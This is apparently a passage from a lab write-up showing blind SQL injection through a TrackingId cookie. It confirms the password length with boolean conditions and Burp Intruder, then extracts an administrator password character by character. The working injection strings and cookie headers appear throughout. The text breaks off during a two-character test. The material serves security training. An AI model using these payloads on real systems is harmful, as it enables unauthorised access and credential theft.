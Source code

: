   ![image](https://github.com/user-attachments/assets/3b6cf31b-06c4-4222-b21b-a3d91b69bb24)


This confirms the presence of a SQL injection vulnerability in the `TrackingId` parameter.

If we send the value as  50 ie `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>50)='a`  , we dont get any welcome message which means its not > 50  characters.

![image](https://github.com/user-attachments/assets/f6516cb4-1db1-41e5-99c4-3986f3363859)

Automate this -> 

1. Send request to Intruder
2. Add the password length part [> 1] 
3. Attack type - SNIPER
4. Payload type - Numbers
5. Give number range from 1-50

There is a difference in length at number 20, means that while checking `if length(password) > 20` it FAILS.

So the total **length of password is 20**.


### Password Extraction or Bruteforce the 20 character length password
To extract the administrator's password, the following SQL injection technique was used to test the password character by character.

#### Step 1: Testing the First Letter
To determine if the first letter of the administrator's password is 's', the following payload was used:
```
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,1)='s
```
**Cookie Payload**:
```
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username='administrator'),1,1)='s
```

![image](https://github.com/user-attachments/assets/396cf2c5-44e1-4e1c-b76f-d74727008545)

**Result**: "Welcome back!" message appeared, confirming the first letter of the password is 's'.

![image](https://github.com/user-attachments/assets/f0805747-c418-4336-89a6-cc90a4df8111)




#### Optimization Attempt
An initial attempt to test multiple letters at once (e.g., checking if the first two characters are 'ss'):
```
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,2)='ss
```
**Cookie Payload**:
```
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username='administrator'),1,2)='ss
```
![image](https://github.com/user-attachments/assets/9a89cca8-dca5-44da-937a-7a7b8eb94c8d)
